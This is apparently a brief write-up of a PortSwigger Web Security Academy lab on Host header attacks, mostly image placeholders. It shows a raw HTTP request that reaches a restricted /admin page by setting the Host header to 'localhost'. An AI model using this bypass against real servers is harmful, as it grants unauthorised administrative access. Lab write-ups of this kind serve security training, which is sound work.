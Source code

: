 -   https://portswigger.net/web-security/host-header/exploiting

![img](media/fa512ed028f10eb37ccd8406ab9f7efc.png)

If we try to access /admin we get this error:

![img](media/b56c8a33a6ef7682a3d722b46e8962f5.png)

We can access using the value “localhost” in the “Host” header:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /admin HTTP/2
Host: localhost
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/92af56f59fa019311d949c35031e41fd.png)